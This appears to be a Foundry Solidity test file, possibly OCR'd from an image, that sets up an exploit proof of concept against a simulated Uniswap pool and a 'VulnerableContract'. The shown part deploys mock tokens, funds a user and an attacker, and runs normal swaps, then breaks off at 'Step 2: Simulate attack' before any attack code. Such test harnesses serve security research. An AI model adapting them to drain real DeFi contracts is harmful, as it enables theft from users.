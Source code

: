 ```solidity
        vm.deal(address(this), 100 ether);
        
        // Deploy tokens with large initial supplies to the deployer (msg.sender)
        usdt_token = new MinimalERC20("USDT Token", "USDT", 10_000_000 * 1e18);
        eve_token = new MinimalERC20("EVE Token", "EVE", 10_000_000 * 1e18);
        
        // Allocate tokens to user and attacker
        usdt_token.transfer(user, 100_000 * 1e18);
        usdt_token.transfer(attacker, 100_000 * 1e18);
        eve_token.transfer(user, 50_000 * 1e18);
        eve_token.transfer(attacker, 50_000 * 1e18);
        
        // Deploy the simulated Uniswap router with initial liquidity pool setup
        router = new SimulatedUniswapV2Router(
            address(usdt_token),
            address(eve_token),
            initialUSDT,
            initialEVE
        );
        
        // Deploy vulnerable contract that interacts with our simulated router
        vulnerable = new VulnerableContract(address(router), address(usdt_token), address(eve_token));
        
        // Approvals for the test contract to simulate user actions (using cheat codes)
        // In a real test, we would simulate this by using vm.prank or similar techniques.
        // For simplicity, we assume user and attacker have approved the vulnerable contract.
        vm.prank(user);
        usdt_token.approve(address(vulnerable), type(uint256).max);
        vm.prank(user);
        eve_token.approve(address(vulnerable), type(uint256).max);
        
        vm.prank(attacker);
        usdt_token.approve(address(router), type(uint256).max);
    }
    
    // Test function to demonstrate the vulnerability.
    // Note: balanceLog modifier logs ETH balances on function call.
    function testExploit() public balanceLog {
        // Ensure this test contract has enough ETH for operations
        vm.deal(address(this), 10 ether);
        
        // Step 1: Demonstrate normal behavior:
        //    - Get token price from the liquidity pool.
        uint256 initialPrice = vulnerable.getPrice();
        emit log_named_uint("Initial Price (USDT per EVE) * 1e18", initialPrice);
        
        //    - User performs a token swap with the vulnerable contract.
        uint256 swapAmount = 1_000 * 1e18;
        // Simulate caller as 'user'
        vm.prank(user);
        uint256 tokensReceived = vulnerable.swapUSDTForTokens(swapAmount);
        emit log_named_uint("Tokens received from swap (normal)", tokensReceived);
        
        //    - User adds liquidity via the vulnerable contract.
        uint256 addUSDT = 500 * 1e18;
        uint256 addEVE = 250 * 1e18;
        vm.prank(user);
        uint256 liquidityAdded = vulnerable.addLiquidity(addUSDT, addEVE);
        emit log_named_uint("Liquidity added (normal)", liquidityAdded);
        
        // Step 2: Simulate attack:
```